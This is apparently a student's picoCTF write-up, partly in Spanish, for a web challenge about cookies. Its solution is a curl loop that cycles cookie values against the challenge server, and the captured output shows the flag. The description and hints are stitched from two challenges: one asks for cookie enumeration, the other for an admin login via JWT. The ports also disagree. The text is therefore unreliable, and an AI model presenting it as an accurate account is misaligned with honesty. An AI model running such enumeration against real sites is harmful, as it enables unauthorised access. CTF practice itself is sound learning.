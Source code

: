 ## Descripcion
Find the flag being held on this server to get ahead of the competition [http://mercury.picoctf.net:28916/](http://mercury.picoctf.net:28916/)

Hay un sitio web seguro en https://jupiter.challenges.picoctf.org/problem/54253/ (enlace) o http://jupiter.challenges.picoctf.org:54253. ¡Intenta ver si puedes iniciar sesión como administrador!
### Pistas
1. What is that cookie?
2. Have you heard of JWT?

1. ¿Qué es esa "cookie"?
2. ¿Has oído hablar de JWT?
### Solución
```
hellbroone-picoctf@webshell:~$ for i in {8..20}; do curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=$i"; done | grep "I love\|pico"
            <p style="text-align:center; font-size:30px;"><b>I love molasses cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love kiss cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love biscotti cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love butter cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love spritz cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love snowball cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love drop cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love thumbprint cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love pinwheel cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love wafer cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>
            <p style="text-align:center; font-size:30px;"><b>I love macaroon cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love fortune cookies!</b></p>
hellbroone-picoctf@webshell:~$ exit
logout
```
### Notas Adicionales
Para este reto aprendimos obtener cookies desde el bash para poder obtener las cookies necesarias y poder saber cuál es la cookie que necesitamos, por ello hicimos un pequeño código que nos permite ejecutar y obtener las cookies de un sitio mediante una consulta de su nombre.
### Referencias
https://play.picoctf.org/practice/challenge/173
[http://mercury.picoctf.net:64944/](http://mercury.picoctf.net:64944/)
